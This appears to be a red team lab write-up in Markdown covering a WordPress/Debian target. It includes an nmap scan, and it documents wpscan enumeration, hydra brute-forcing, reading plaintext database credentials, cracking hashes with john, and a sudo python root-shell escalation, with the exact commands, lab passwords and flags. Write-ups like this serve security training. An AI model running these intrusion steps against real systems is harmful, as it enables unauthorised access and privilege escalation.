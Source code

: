 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS-sV -O 192.168.1.0/24
Nmap scan report for 192.168.1.1
Host is up (0.00057s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7|2008 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008::sp1
cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (87%), Microsoft Windows 7 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00071s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6, Linux 5.0 - 5.3
Network Distance: 1 hop
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00092s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.00096s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.000046s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 6 (protocol 2.0)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 34.52 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - `wpscan` enumerate usernames
    - running `wpscan` was able to enumerate usernames for the target system.
- ![wpscan](./Images/wpscan2.JPG)

  - `ssh` as user `michael` with password.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - User `michael` had a weak password(Brute forced with `hydra`)
- ![hydrascan](./Images/Michael%20hydra%20crack%20password.JPG)

  - Database credentials for wordpress are written in plain text.
    - Database credentials were stored in /var/www/html/
    - This allowed me to access the mysql database and extract confidential information such as password hashes.
- ![sqlcredentials](./Images/MySQL%20password.JPG)

  - `ssh` with user `steven` credentials.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - Running `john` against the password hashes gave user `steven`'s password.
    - This allowed me to find user `steven`'s sudo privilages.
- ![stevensudo](./Images/Steven%20sudo%20priv%20file.JPG)

  - `python` can be run with `sudo` privilages.
    - The user steven has the ability to run `python` with `sudo`.
    - Running `python` with `sudo` can execute arbitrary code on the system to get a shell with root access.
- ![pythonshell](./Images/pythonshell.JPG)

  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - The version of Samba running on this server allows an attacker to execute malicious code remotely.

  - [CVE-2017-3167](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3167)
    - The version of Apache running on this server allows an attacker to bypass authentication by use of third party module.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var`
      - `grep -rnw ./ -e flag1 2>/dev/null`
- ![flag1](./Images/flag1.JPG)

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I was able to cat the flag 2 file found in `/var/www`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var/www`
      - `cat flag2.txt`
- ![flag2](./Images/flag2.JPG)

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of wp_posts in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cat /var/www/html/wp_config.php`
      - `mysql -u root -p` (password R@v3nSecurity)
      - `USE wordpress;`
      - `USE wp_posts;`
      - `SELECT * FROM wp_posts;`
- ![flag3](./Images/flag3.JPG)

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using john the ripper, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
    - Commands run:
      - `ssh steven@192.168.1.110 (password pink84)`
      - `python -c 'import os; os.system("/bin/sh")'`
      - `cat /root/flag4.txt`
- ![flag4](./Images/flag4.JPG)
